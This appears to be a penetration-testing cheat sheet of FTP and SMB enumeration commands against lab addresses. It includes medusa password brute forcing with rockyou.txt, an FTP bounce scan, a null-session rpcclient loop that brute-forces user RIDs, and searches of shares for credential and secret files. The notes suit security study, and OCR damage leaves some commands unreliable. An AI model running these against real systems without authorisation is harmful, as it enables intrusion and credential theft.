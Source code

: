     - openssl s_client -connect 10.129.14.136:21 -starttls ftp
- Enumeration
    - sudo nmap -sC -sV -p 21 192.168.2.142
- Anonymous connect
    - ftp 192.168.2.142
- Brute Forcing
    - medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
- FTP Bounce Attack
    - nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

## SMB

- TCP 137,138,139,445
- cat /etc/samba/smb.conf | grep -v "#\|\;”
- smbclient
    - smbclient -N -L [//10.129.14.128](https://10.129.14.128/)
    - smbclient [//10.129.14.128/notes](https://10.129.14.128/notes)
    - help
    - get
    - !<cmd> to run local commands
    - smbstatus
- rpcclient
    - rpcclient -U "" 10.129.14.128
    - rpcclient -U'%' 10.10.110.17
    - srvinfo
    - enumdomains
    - querydominfo
    - netshareenumall
    - netsharegetinfo <share>
    - enumdomusers
    - queryuser <RID>
    - querygroup <RID>
    - Bruteforce User RIDs `for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done`
    - Impacket [samrdum.py](http://samrdum.py)
        - [samrdump.py](http://samrdump.py/) 10.129.14.128
- SMBmap
    - smbmap -H 10.129.14.128
    - list all shares
- cme
    - crackmapexec smb 10.129.14.128 --shares -u '' -p '’
- enum4linuxng
    - [enum4linux-ng.py](http://enum4linux-ng.py/) 10.129.14.128 -A
- smbclient //dc01/carlos -k -c ls
- WINKEY + R → \\192.168.220.129\Finance\
- List files - dir n: /a-d /s /b | find /c ":\”
    - `dir n:\*cred* /s /b`
    - `dir n:\*secret* /s /b`
    - `findstr /s /i cred n:\*.*`
- Powershell
    - Get-ChildItem \\192.168.220.129\Finance\
    - New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem”
    